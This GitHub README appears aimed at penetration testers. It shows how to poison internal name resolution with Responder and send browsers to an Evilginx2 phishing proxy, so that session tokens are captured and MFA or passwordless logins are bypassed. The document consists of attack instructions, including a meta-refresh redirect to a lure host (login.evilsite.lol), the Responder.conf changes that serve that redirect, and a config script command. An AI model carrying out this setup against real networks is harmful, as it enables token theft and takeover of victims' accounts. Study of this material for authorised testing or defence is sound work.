 # Attacking Passwordless, MFA and/or Zero Trust Environments using Responder and Evilgnx2

Organizations continue to improve their security posture with many implementing security mechanisms that go beyond just password authentication.  This can help prevent common attacks such as password spraying from being affective.

As defenders move past passwords, attackers can as well.  Focusing on tokens will allow us access without needing the passwords.

One method to obtain these tokens is an invisible proxy, such as [Evilgnx2](https://github.com/kgretzky/evilginx2), traditionally used in phishing attacks.

Phishing techniques are not often used in pentests, but as organizations move beyond passwords, some these techniques can be adopted.

Using [Evilgnx2](https://github.com/kgretzky/evilginx2) in conjunction with a tool like [Responder](https://github.com/lgandx/Responder) will allow internal penetration testers to utilize these techniques and capture tokens without the need for passwords.  

## The Setup
### Evilgnx2
For the most part, [Evilgnx2](https://github.com/kgretzky/evilginx2) can be setup in a standard configuration externally.  It can be a complex setup, but when finished you should have a lure URL to direct the targets to.

### Responder
We are going to use [Responder](https://github.com/lgandx/Responder) to poison any requests on the internal network.  If we can successfully poison a 
request from a browser, we can redirect the browser to our [Evilgnx2](https://github.com/kgretzky/evilginx2) server.

To do this, we will edit a couple files on our internal attack machine that will run responder.  

First we can add our redirect we will serve via HTML (the lure will need to be replaced with your unique Evilgnx2 phishing lure). A simple [302 HTML redirect file is included](./302.html) in this repo, just replace the ```LURE_GOES_HERE``` with the URL of your [Evilgnx2](https://github.com/kgretzky/evilginx2) lure.

```
<meta http-equiv="refresh" content="0; URL='https://login.evilsite.lol/RWAdlKuU'" />

```

You can either change the config in the default responder directory, or use the included [bash script](./responder_config.sh) to generate one.  

Change:
```
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = Off

; Custom HTML to serve
HtmlFilename = files/AccessDenied.html
```
To:
```
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On

; Custom HTML to serve
HtmlFilename = files/302.html
```

or run the script.  The script will edit the Responder.conf in its default location; Read before executing.

```
bash responder_config.sh
```

Then start [Responder](https://github.com/lgandx/Responder) as you normally would using the edited config.

